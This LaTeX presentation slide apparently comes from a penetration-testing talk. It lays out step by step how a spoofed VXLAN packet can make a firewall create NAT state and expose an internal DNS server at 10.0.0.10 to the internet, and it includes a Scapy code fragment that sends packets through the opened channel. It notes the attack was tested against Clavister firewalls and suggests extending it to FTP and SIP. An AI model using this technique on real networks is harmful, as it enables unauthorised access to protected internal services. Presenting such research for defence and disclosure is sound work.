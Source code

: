 \documentclass[16pt,landscape,a4paper,footrule]{foils}
\begin{document}
\begin{enumerate}
\item Select target: internal server, 10.0.0.10 and DNS service 53/UDP
\item Create VXLAN packet(s): internal packet src 10.0.0.10 UDP sport 53
\item Destination for this probe is your external pentest server
\item Make sure inside packet has Ethernet destination of the firewall
\item Send spoofed VXLAN packet across internet
\item After VXLAN decap, packet switched to firewall, come from inside
\item Firewall forwards, creates state, NATs
\item Attacker waiting for the UDP probe, notice NAT source IP+port
\item Attacker across regular internet send UDP request to NAT IP+port
\item Request match state, and is forwarded to internal server on 10.0.0.10
\end{enumerate}

Tested working with Clavister with DNS UDP probes/requests, weak/no DNS inspection \smiley
\vskip 1cm
\centerline{May allow acess to all UDP services? Need more testing}


Send/receive UDP probe, then do another request through the open channel
\begin{alltt}\footnotesize
...
print "After fork and things"
#print data.summary()
data[0].show()

# Dissecting the packet
ip=data[0].getlayer(IP)
udp=data[0].getlayer(UDP)

# Try sending request back through - now open - channel
# Dont forget to reverse the src/dst and ports
packet=Ether(dst=routermac)/IP(src=attacker,dst=ip.src)/
    UDP(sport=udp.dport,dport=udp.sport)/DNS(rd=1,qd=DNSQR(qname="localhost"))
sendp(packet,loop=0)
...
\end{alltt}

Maybe abuse complex protocols such as FTP, SIP etc. to open arbitrary ports?

\end{document}
